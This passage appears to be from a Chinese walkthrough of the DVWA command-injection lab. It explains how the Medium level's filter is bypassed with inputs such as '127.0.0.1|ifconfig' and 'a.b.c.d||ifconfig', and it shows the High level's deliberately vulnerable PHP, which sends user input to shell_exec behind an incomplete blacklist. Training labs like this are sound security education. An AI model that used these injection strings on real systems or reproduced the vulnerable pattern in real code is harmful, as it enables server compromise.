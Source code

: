 在 Low 的基础上使用 `str_replace` 过滤符号 `&&` 和 `;`。  

`||` 、 `|` 、`&` 仍然可以使用，此外还可以使用 `&&&` 、 `&;&` 等，过滤后就变为 `&` 、 `&&`，同样可以实现漏洞利用。  

```Text  
# ping a.b.c.d 失败，继续执行 ifconfig  
a.b.c.d||ifconfig  
  
# ifconfig 不接受输入  
127.0.0.1|ifconfig  
  
# ping 127.0.0.1 后台结束后返回  
127.0.0.1&ifconfig  
```

### high  

```php  
<?php  
  
if( isset( $_POST[ 'Submit' ]  ) ) {  
    // Get input  
    $target = trim($_REQUEST[ 'ip' ]);  
  
    // Set blacklist  
    $substitutions = array(  
        '&'  => '',  
        ';'  => '',  
        '| ' => '',  
        '-'  => '',  
        '$'  => '',  
        '('  => '',  
        ')'  => '',  
        '`'  => '',  
        '||' => '',  
    );  
  
    // Remove any of the charactars in the array (blacklist).  
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );  
  
    // Determine OS and execute the ping command.  
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {  
        // Windows  
        $cmd = shell_exec( 'ping  ' . $target );  
    }  
    else {  
        // *nix  
        $cmd = shell_exec( 'ping  -c 4 ' . $target );  
    }  
  
    // Feedback for the end user  
    echo "<pre>{$cmd}</pre>";  
}  
  
?>  
```
